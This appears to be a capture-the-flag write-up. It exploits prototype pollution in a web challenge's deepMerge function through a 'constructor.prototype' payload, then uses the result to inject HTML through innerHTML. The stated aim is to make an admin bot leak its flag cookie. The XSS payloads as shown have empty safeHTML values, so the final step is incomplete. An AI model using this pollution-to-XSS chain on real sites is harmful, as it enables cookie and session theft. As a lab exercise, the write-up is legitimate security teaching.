




# Prototype's Fall

> The system's defenses are built on flawed foundations. Their inheritance isn't as robust as they believe. To exploit their weakness, don't just corrupt the blueprint; manipulate the very essence of their creation – the constructor itself. Twist its purpose, and watch their reality crumble.



## Observations

Inspecting the source code and outgoing requests

### Cycle Light Sequence

The button makes a GET request with query param `config: {"darkMode": true}`.

### Bot

A bot visits the URL we provide in the text box.

### getEnv()

```javascript

// Returns the current env setup. Totally hardcoded because who has time for flexibility? No params, just deal with it.
function getEnv() {
    return {
        // devMode: true, // Keeping devMode commented out for production sanity.
        log: false, // Access logs... too boring for us.
    }
}

// Merges two objects deeply. Because shallow merges are for the well-rested.
function deepMerge(dest, src) {
    for (let key in src) {
        if (!src.hasOwnProperty(key)) {
            continue
        }
        if (typeof src[key] !== 'object') {
            dest[key] = src[key];
            continue
        } else if (key === '__proto__') { // This input sanitization? Prototype pollution doesn't stand a chance.
            continue;
        }

        if (!dest[key]) {
            if (Array.isArray(src[key])) {
                dest[key] = []
            } else {
                dest[key] = {};
            }
        }
        deepMerge(dest[key], src[key]);
    }
}

// Gets the config. Defaults, env vars, all that jazz.
function getConfig() {
    config = {
        darkMode: true,
        username: "Anonymous",
    }
    const url = new URL(window.location.href);
    const params = new URLSearchParams(url.search);
    userConfig = JSON.parse(params.get("config"))
    deepMerge(config, userConfig);
    return config
} 
```

### devMode, safeHTML

```javascript
config = getConfig()
if (getEnv().log) console.log(`Config: darkMode:${config.darkMode} username:${config.username}`)

body = document.getElementById("body");
if (config.darkMode) {
    body.classList.add('dark-mode')
} else {
    body.classList.add('light-mode')
}

document.getElementById("toggle-dark-mode").addEventListener('click', function () {
    if (!userConfig) {
        userConfig = {}
    }
    userConfig.darkMode = !config.darkMode
    console.log("user config:", userConfig)

    const currentUrl = new URL(window.location.href)
    currentUrl.searchParams.set("config", JSON.stringify(userConfig))
    window.location.href = currentUrl.toString()
});

// NEXT: Add a child in a safe way. For now, only do this in dev mode.
if (getEnv().devMode) {
    console.log("append child")
    child = document.createElement('div');
    child.innerHTML = getEnv().safeHTML;
    document.body.appendChild(child)
}
```

## Approach

### Prototype Pollution

The `config` param can be used to pollute the prototype, thanks to the `deepMerge()` function

The key "\_\_proto\_\_" is blacklisted, so [found another way](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Prototype%20Pollution):

```text
/?config={"constructor":{"prototype":{"devMode":true}}}
```



The presence of "undefined" indicates that the attack was successful; `devMode` is set to true and `safeHTML` (which is undefined) is added to the html of the page

### XSS

The bot may have the flag as a cookie (this is a classic setup in CTFs)

We know there is `safeHTML` being added to the html of the page, which can be used to perform XSS to make the bot leak the cookie

Trying it out in browser:

```text
/?config={"constructor":{"prototype":{"devMode":true,"safeHTML":""}}}
```



Worked!

Time for the final blow! Enter the payload (URL-encode it just to be safe) in the text box and send the bot:

```text
/?config={"constructor":{"prototype":{"devMode":true,"safeHTML":""}}}
```



Got the flag!
